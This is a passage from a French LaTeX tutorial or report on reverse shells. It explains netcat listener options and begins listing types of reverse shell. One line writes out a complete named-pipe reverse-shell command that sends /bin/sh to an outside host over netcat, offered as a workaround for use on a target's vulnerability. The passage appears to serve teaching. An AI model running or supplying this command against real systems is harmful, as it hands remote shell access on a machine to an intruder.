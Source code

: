 Comme on peut le voir ci-dessus, Netcat peut être noté ‘nc’. Avec les options associées à Netcat, on s’aperçoit que le programme écoute de la part de tout le monde sur le port 5555.
Regardons ces options de plus près :\\
1) ‘ -l ‘ pour listen, est l’option de nc permettant d’activer le mode écoute.\\
2) ‘-v ‘ ou ‘-vv’ est le mode verbose. Cela signifie qu’il va afficher toutes les informations de retour telles que : “listening on [any] 5555 . . . “\\
3) ‘-p’ est l’option d’ouverture de ports.\\
Une fois cette commande lancée, nous pourrons laisser de côté ‘ nc -l ’ et nous focaliser sur l’ouverture du reverse-shell sur la machine cible.\\
En cas d'échec de connexion, il se pourrait que la cible n'ait pas la bonne version de Netcat. Il est possible de contourner le problème en réalisant la commande suivante dans la faille :
\begin{center}
    \textbf{rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 10.0.0.1 1234 >/tmp/f}
\end{center}
Comme nous l’avons vu précédemment, il faut avoir trouvé une faille pour mettre en place un reverse-shell. Il existe donc des reverse-shell qui seront plus faciles à ouvrir dans certaines situations que d’autres. Netcat fait partie, comme nous l’avons vu plus tôt, des reverse-shell car il peut créer un socket en envoyant le shell à un utilisateur distant. C’est pourquoi nous allons nous intéresser aux différents types de reverse-shell.

\subsubsection{Différents types de reverse-shell}

\noindent \textbf{Netcat-reverse}\\

Imaginons qu’une faille nous permet d’utiliser un ‘ echo ‘ dans le terminal cible, nous pourrons alors appliquer netcat en ouverture de port comme ci-dessous :\\

\begin{figure}[htp!]
  \centering
  \setlength\figureheight{9cm}
  \setlength\figurewidth{7cm}
  \includegraphics[width=1\textwidth]{oui/Ancien/imangeancien/Reverse-Shell/reverse_netcat.PNG}
  \caption{Reverse Netcat en localhost}
  \label{fig:courbe-tikz}
\end{figure}

